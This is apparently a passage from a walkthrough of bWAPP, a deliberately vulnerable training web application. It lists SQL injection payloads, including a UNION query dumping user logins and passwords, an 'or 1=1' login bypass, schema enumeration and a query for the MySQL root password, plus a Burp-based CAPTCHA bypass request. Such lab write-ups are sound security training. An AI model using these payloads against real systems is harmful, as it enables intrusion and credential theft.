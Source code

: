 blah%' union all select 1,login,password,email,secret,1, 1 from users --

### SQL Injection (Login Form/Hero)
```
ok' or 1=1-- 
```
### SQL Injection(SQLite)

```
a%' UNION ALL SELECT 1,sqlite_version(),1,1,1,1; --
```

### SQL Injection - Stored (Blog)

Be sure to add a space after the -- for this one, otherwise the injection will not work
```
asdf',(SELECT database()  ))-- 
```

To begin enumerating tables:
```
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 0,1  ))-- 
asdf',(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bWAPP' LIMIT 1,1  ))-- 
```

```
asdf',(select password from mysql.user where user='root' ))-- 
```

# A2 - Broken Authentication

### Broken Auth. - CAPTCHA Bypassing

Using Burp, do not allow the webpage to load captcha_box.php, this page loads the server's session variable $_SESSION["captcha"] which will then require a check on ba_captcha_bypass.php
The second requirement is to prevent captcha_user from being submitted by the client.  Eliminate this using Burp:


```
POST /bWAPP/ba_captcha_bypass.php HTTP/1.1
Host: bepp:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bepp:8088/bWAPP/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
```
